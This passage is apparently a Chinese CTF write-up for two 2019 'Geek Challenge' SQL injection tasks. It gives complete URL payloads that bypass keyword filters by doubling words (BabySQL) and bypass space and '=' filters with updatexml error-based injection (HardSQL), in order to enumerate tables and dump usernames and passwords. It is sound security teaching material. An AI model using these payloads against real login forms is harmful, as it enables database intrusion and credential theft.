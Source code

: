 ~~~payload
#
~~~
![0bxvB4.png](https://s1.ax1x.com/2020/10/16/0bxvB4.png)
得到`flag`

## [极客大挑战 2019]BabySQL 1（黑名单复写绕过）
首先测试万能密码得到`password`
[![BpOWXn.png](https://s1.ax1x.com/2020/10/20/BpOWXn.png)](https://imgchr.com/i/BpOWXn)
然而发现登陆后并没有什么用
[![BpOLc9.png](https://s1.ax1x.com/2020/10/20/BpOLc9.png)](https://imgchr.com/i/BpOLc9)
`sql`注入发现存在过滤
[![BpXNNT.png](https://s1.ax1x.com/2020/10/20/BpXNNT.png)](https://imgchr.com/i/BpXNNT)
[![BpXVBt.png](https://s1.ax1x.com/2020/10/20/BpXVBt.png)](https://imgchr.com/i/BpXVBt)
最后发现可以复写绕过
[![BpjSrn.png](https://s1.ax1x.com/2020/10/20/BpjSrn.png)](https://imgchr.com/i/BpjSrn)
[![BpjbLR.png](https://s1.ax1x.com/2020/10/20/BpjbLR.png)](https://imgchr.com/i/BpjbLR)
[![BpvefS.png](https://s1.ax1x.com/2020/10/20/BpvefS.png)](https://imgchr.com/i/BpvefS)
[![BpvdX9.png](https://s1.ax1x.com/2020/10/20/BpvdX9.png)](https://imgchr.com/i/BpvdX9)

~~~payload
?username=admin%27%23&password=admin
?username=ad1min' uniunionon selecselectt 1,2,database()%23&password=admin
?username=ad1min' uniunionon selecselectt 1,2,table_name frofromm infoorrmation_schema.tables whwhereere table_schema=database()%23&password=admin
?username=ad1min' uniunionon selecselectt 1,2,group_concat(column_name) frofromm infoorrmation_schema.columns whwhereere table_schema=database() anandd table_name='b4bsql'%23&password=admin
?username=ad1min' uniunionon selecselectt 1,2,group_concat(id,username,passwoorrd) frofromm b4bsql%23&password=admin
~~~

## [极客大挑战 2019]HardSQL 1（ 空格过滤使用()绕过  =过滤用like绕过）
这道题的`payload`不允许存在空格
[![BpxmAx.png](https://s1.ax1x.com/2020/10/20/BpxmAx.png)](https://imgchr.com/i/BpxmAx)
[![Bpx0gg.png](https://s1.ax1x.com/2020/10/20/Bpx0gg.png)](https://imgchr.com/i/Bpx0gg)
并且这道题没有回显点，尝试报错注入
[![BpxWCT.png](https://s1.ax1x.com/2020/10/20/BpxWCT.png)](https://imgchr.com/i/BpxWCT)
[![Bpxvxe.png](https://s1.ax1x.com/2020/10/20/Bpxvxe.png)](https://imgchr.com/i/Bpxvxe)
`updatexml`可以使用
[![B9SB0s.png](https://s1.ax1x.com/2020/10/20/B9SB0s.png)](https://imgchr.com/i/B9SB0s)
[![B9pSAI.png](https://s1.ax1x.com/2020/10/20/B9pSAI.png)](https://imgchr.com/i/B9pSAI)
[![B9pJb9.png](https://s1.ax1x.com/2020/10/20/B9pJb9.png)](https://imgchr.com/i/B9pJb9)
[![B9pOP0.png](https://s1.ax1x.com/2020/10/20/B9pOP0.png)](https://imgchr.com/i/B9pOP0)
但是发现`flag`是不全的
[![B9pTbj.png](https://s1.ax1x.com/2020/10/20/B9pTbj.png)](https://imgchr.com/i/B9pTbj)
[![B9pOP0.png](https://s1.ax1x.com/2020/10/20/B9pOP0.png)](https://imgchr.com/i/B9pOP0)
这是我们就可以取`flag`左右两部分进行拼接
~~~payload
?username=admi1n'or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23&password=admin
?username=admi1n'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23&password=admin
?username=admi1n'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23&password=admin
?username=admi1n'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))%23&password=admin
?username=admi1n'or(updatexml(1,concat(0x7e,(select(left(password,100))from(H4rDsq1)),0x7e),1))%23&password=admin
?username=admi1n'or(updatexml(1,concat(0x7e,(select(right(password,30))from(H4rDsq1)),0x7e),1))%23&password=admin
~~~
